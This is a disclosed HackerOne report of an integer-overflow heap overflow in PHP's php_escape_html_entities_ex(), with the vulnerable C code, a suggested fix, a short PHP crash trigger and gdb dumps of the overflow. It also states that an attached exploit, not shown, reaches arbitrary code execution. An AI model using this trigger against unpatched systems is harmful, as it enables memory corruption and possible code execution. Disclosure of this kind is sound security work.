 # Heap overflow due to integer overflow in php_escape_html_entities_ex() function

## Report Details
- **Report ID**: 180582
- **URL**: https://hackerone.com/reports/180582
- **State**: Closed
- **Severity**: low
- **Submitted**: 2016-11-07T07:21:42.625Z
- **Disclosed**: 2019-11-12T09:22:04.703Z

## Reporter
- **Username**: fosec
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
The fix for this bug has been committed: https://bugs.php.net/bug.php?id=73398
Description:
------------
I have found some vulnerable code at ```php_escape_html_entities_ex()``` function. ```php_escape_html_entities_ex()``` function creates a new zend_string object to store html data. The size of destination string depends on the size of source string. ( refer at `ext/standard/html.c:1272` )

``` c
PHPAPI zend_string *php_escape_html_entities_ex(unsigned char *old, size_t oldlen, int all, int flags, char *hint_charset, zend_bool double_encode)
{
...
	/* initial estimate */
	if (oldlen < 64) {
		maxlen = 128;
	} else {
		maxlen = 2 * oldlen;
		if (maxlen < oldlen) {
			zend_throw_error(NULL, "Input string is too long");
			return NULL;
		}
	}

replaced = zend_string_alloc(maxlen, 0);
...
}
```

If `oldlen` is equal to PHP_INT_MAX, `maxlen` will be an unexpected value and `zend_string_alloc()` function will allocate a small memory range. Due to missing check of size before calling
`zend_string_alloc()`, this new memory range can not use to store large html data and lead to heap overflow. I can overwrite other objects of PHP in memory. This bug is only triggered in 32bit machine.

Solution:
It should be `zend_string_alloc_safe` instead of `zend_string_alloc`. 

Test script:
---------------
``` php
<?php
ini_set('memory_limit', -1);
$s = str_repeat("A", PHP_INT_MAX);
htmlentities($s, 0, "", true);
?>
```
Actual result:
--------------
Open php program in gdb and run test script, set a breakpoint at line in file `ext/standard/html.c:1269`.
When debugger stops, we have `oldlen=0x7fffffff`. Because `oldlen` is bigger than 0x64, `maxlen` is equal to twice `oldlen`. `maxlen` is equal to 0xfffffffe. 
```
 [----------------------------------registers-----------------------------------]
EAX: 0xfffffffe
EBX: 0x1
ECX: 0x10
EDX: 0x5
ESI: 0xb7814100 --> 0x2
EDI: 0xfffffffe
EBP: 0xbfffbf68 --> 0xbfffbfb8 --> 0xbfffc084 --> 0x0
ESP: 0xbfffbee0 --> 0x80001000 ('A' <repeats 200 times>...)
EIP: 0x826e37a (<php_escape_html_entities_ex+442>:      call   0x82fc010 <_emalloc>)
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x826e371 <php_escape_html_entities_ex+433>: mov    edi,DWORD PTR [ebp-0x34]
   0x826e374 <php_escape_html_entities_ex+436>: lea    ecx,[edi+0x14]
   0x826e377 <php_escape_html_entities_ex+439>: and    ecx,0xfffffffc
=> 0x826e37a <php_escape_html_entities_ex+442>: call   0x82fc010 <_emalloc>
   0x826e37f <php_escape_html_entities_ex+447>: mov    esi,eax
   0x826e381 <php_escape_html_entities_ex+449>: mov    DWORD PTR [eax],0x1
   0x826e387 <php_escape_html_entities_ex+455>: mov    DWORD PTR [eax+0x4],0x6
   0x826e38e <php_escape_html_entities_ex+462>: mov    DWORD PTR [eax+0x8],0x0
[------------------------------------stack-------------------------------------]
0000| 0xbfffbee0 --> 0x80001000 ('A' <repeats 200 times>...)
0004| 0xbfffbee4 --> 0xb7ce07e9 (<madvise+25>:  pop    ebx)
0008| 0xbfffbee8 --> 0xb7ce07f7 (<madvise+39>:  add    ecx,0xc7809)
0012| 0xbfffbeec --> 0x82f9774 (<zend_mm_chunk_alloc_int+100>:  mov    eax,esi)
0016| 0xbfffbef0 --> 0x37400000 --> 0x2
0020| 0xbfffbef4 --> 0x80001000 ('A' <repeats 200 times>...)
0024| 0xbfffbef8 --> 0xe
0028| 0xbfffbefc --> 0x88dd0c0 --> 0x88dd0f8 --> 0x2
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x0826e37a      122             zend_string *ret = (zend_string *)pemalloc(ZEND_MM_ALIGNED_SIZE(_ZSTR_STRUCT_SIZE(len)), persistent);
gdb-peda$
```


The size which is used as parameter in `_emalloc()` function is equal to `((oldlen * 2 + 0x14 ) & 0xfffffffc)`. Due to integer overflow, if `oldlen` is equal to 0x7fffffff, this size is 0x10. The new memory region is too small to store a large string! 

if we continue running, other memory region will be overwritten until SIGSEGV!
```
 [----------------------------------registers-----------------------------------]
EAX: 0x41 ('A')
EBX: 0x199fa0
ECX: 0x37599fb0 ('A' <repeats 200 times>...)
EDX: 0x3
ESI: 0x199fa1
EDI: 0xb7866050 --> 0x1
EBP: 0xbfffbf68 --> 0xbfffbfb8 --> 0xbfffc084 --> 0x0
ESP: 0xbfffbee0 --> 0x80001000 ('A' <repeats 200 times>...)
EIP: 0x826eaf1 (<php_escape_html_entities_ex+2353>:     mov    BYTE PTR [edi+ebx*1+0x10],al)
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x826eae8 <php_escape_html_entities_ex+2344>:        mov    ebx,DWORD PTR [ebp-0x38]
   0x826eaeb <php_escape_html_entities_ex+2347>:        movzx  eax,BYTE PTR [ecx]
   0x826eaee <php_escape_html_entities_ex+2350>:        mov    esi,DWORD PTR [ebp-0x30]
=> 0x826eaf1 <php_escape_html_entities_ex+2353>:        mov    BYTE PTR [edi+ebx*1+0x10],al
   0x826eaf5 <php_escape_html_entities_ex+2357>:        lea    eax,[ebx+0x1]
   0x826eaf8 <php_escape_html_entities_ex+2360>:        mov    DWORD PTR [ebp-0x38],eax
   0x826eafb <php_escape_html_entities_ex+2363>:        jmp    0x826e810 <php_escape_html_entities_ex+1616>
   0x826eb00 <php_escape_html_entities_ex+2368>:        test   BYTE PTR [ebp+0x14],0x2
[------------------------------------stack-------------------------------------]
0000| 0xbfffbee0 --> 0x80001000 ('A' <repeats 200 times>...)
0004| 0xbfffbee4 --> 0xb7ce07e9 (<madvise+25>:  pop    ebx)
0008| 0xbfffbee8 --> 0xb7ce07f7 (<madvise+39>:  add    ecx,0xc7809)
0012| 0xbfffbeec --> 0x82f9774 (<zend_mm_chunk_alloc_int+100>:  mov    eax,esi)
0016| 0xbfffbef0 --> 0x37400000 --> 0x2
0020| 0xbfffbef4 --> 0x80001000 ('A' <repeats 200 times>...)
0024| 0xbfffbef8 --> 0xe
0028| 0xbfffbefc --> 0x88dd0c0 --> 0x88dd0f8 --> 0x2
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0826eaf1 in php_escape_html_entities_ex (old=0x37400010 'A' <repeats 200 times>..., oldlen=0x7fffffff, all=<optimized out>, all@entry=0x1, flags=0x0, hint_charset=0x88cce38 "",
    double_encode=double_encode@entry=0x1) at /root/fuzzer/PHP-7.1/ext/standard/html.c:1378
1378                                            ZSTR_VAL(replaced)[len++] = mbsequence[0];
gdb-peda$
```
I can leak memory to bypass ASLR + DEP and control eip register to the arbitrary value. Finally, the overflow results as arbitrary code execution. The attached script which executes at local machine can leak library data and run `/bin/sh`. :)


## Attachments
- php_escape_html_entities_ex_exploit.php
